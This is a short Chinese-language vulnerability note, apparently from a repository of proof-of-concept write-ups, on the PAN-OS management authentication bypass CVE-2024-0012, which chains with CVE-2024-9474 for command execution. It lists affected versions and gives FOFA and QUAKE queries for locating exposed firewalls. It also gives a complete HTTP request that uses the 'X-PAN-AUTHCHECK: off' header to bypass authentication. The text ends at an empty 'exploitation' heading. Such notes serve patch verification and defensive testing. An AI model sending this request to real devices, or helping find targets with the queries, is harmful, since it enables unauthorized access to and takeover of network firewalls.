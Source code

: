 # 漏洞描述
<font style="color:rgb(52, 58, 64);">Palo Alto Networks PAN-OS GlobalProtect 是Palo Alto Networks 的一款防火墙产品。2024年11日，官方披露CVE-2024-0012 Palo Alto Networks PAN-OS Management 管理端权限绕过漏洞。攻击者可构造恶意请求绕过身份认证，并结合CVE-2024-9474可执行任意命令，控制服务器。</font>

# <font style="color:rgb(52, 58, 64);">漏洞来源</font>
[https://avd.aliyun.com/detail?id=AVD-2024-0012&timestamp__1384=n4%2BxRii%3DDQitO47qBKDsL3O4IxiTvY4D5wApRQx](https://avd.aliyun.com/detail?id=AVD-2024-0012&timestamp__1384=n4%2BxRii%3DDQitO47qBKDsL3O4IxiTvY4D5wApRQx)

# 影响范围
+ PAN-OS 10.2 < 10.2.12-h2
+ PAN-OS 11.0 < 11.0.6-h1
+ PAN-OS 11.1 < 11.1.5-h1
+ PAN-OS 11.2 < 11.2.4-h1

# 搜索语法
+ QUAKE 语法：app:"Palo Alto 网络防火墙"
+ fofa 语法：icon_hash="873381299"

# 披露时间
<font style="color:rgb(33, 37, 41);">2024-11-19</font>

# <font style="color:rgb(33, 37, 41);">漏洞复现</font>
[https://blog.csdn.net/qq_44159028/article/details/144194646](https://blog.csdn.net/qq_44159028/article/details/144194646)

漏洞验证

```http
GET /php/utils/CmsGetDeviceSoftwareVersion.php/.js.map HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Fedora; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Connection: keep-alive
Accept: */*
Accept-Language: en
X-PAN-AUTHCHECK: off
Accept-Encoding: gzip, deflate, br
 
```

![](https://cdn.nlark.com/yuque/0/2024/png/46595937/1734417279305-b617f603-9b66-43ed-b552-48f87dcb11ba.png)

漏洞利用
